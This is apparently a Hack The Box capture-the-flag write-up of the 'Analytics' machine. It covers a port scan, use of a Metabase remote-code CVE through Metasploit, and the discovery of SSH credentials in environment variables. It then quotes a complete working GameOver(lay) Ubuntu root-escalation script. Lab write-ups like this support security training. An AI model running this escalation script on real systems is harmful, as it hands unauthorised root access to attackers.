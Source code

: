 # Analytics
https://app.hackthebox.com/machines/Analytics

## Port scan

### Tool used: nmap
<br>

```
nmap -p 22,80 analytical.htb                                            
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-15 02:25 EDT
Nmap scan report for analytical.htb (10.10.11.233)
Host is up (0.053s latency).
rDNS record for 10.10.11.233: analytical

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## Web

Browsing the URL points us to a basic website, with the *login* page taking us to a second URL: **data.analytical.htb**<br><br>

![web](./docs/analytics/analytics_01_web.png)
<br><br>

![login](./docs/analytics/analytics_02_login.png)
<br><br>

A quick search for *Metabase* exploits leads us to CVE-2023-38646 (https://github.com/securezeron/CVE-2023-38646). We can use this exploit with Metasploit. We end up logged in with the *metabase* user:

![msf1](./docs/analytics/analytics_03_msf1.png)

![msf2](./docs/analytics/analytics_04_msf2.png)
<br><br>

We setup a simple python web server on our host so we can run our favorite enumeration script (LinEnum). Here, we find some interesting environment variables, such as possible SSH credentials:

![enum](./docs/analytics/analytics_05_enum.png)
<br><br>

The credentials worked and allowed us to login via SSH as the *metabase* user, where we get the user.txt flag.

## user.txt

```
d4219d**************************
```

Next, we try to find a way to escalate our privileges. Nothing stands out, so we go back to the basics and see what kind of exploits we can find for the given OS version:

```
cat /etc/os-release 

PRETTY_NAME="Ubuntu 22.04.3 LTS"
NAME="Ubuntu"
VERSION_ID="22.04"
VERSION="22.04.3 LTS (Jammy Jellyfish)"
VERSION_CODENAME=jammy
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
```

After some research, we find that 22.04.3 is susceptible to CVE-2023-2640 & CVE-2023-32629. We simply copy the following code into *exploit.sh* and execute it on the machine:

```sh
#!/bin/bash

# CVE-2023-2640 CVE-2023-3262: GameOver(lay) Ubuntu Privilege Escalation
# by g1vi https://github.com/g1vi
# October 2023

echo "[+] You should be root now"
echo "[+] Type 'exit' to finish and leave the house cleaned"

unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

Now that we have escalated privileges, we get the root.txt flag. 

## root.txt

```
05dddf**************************
```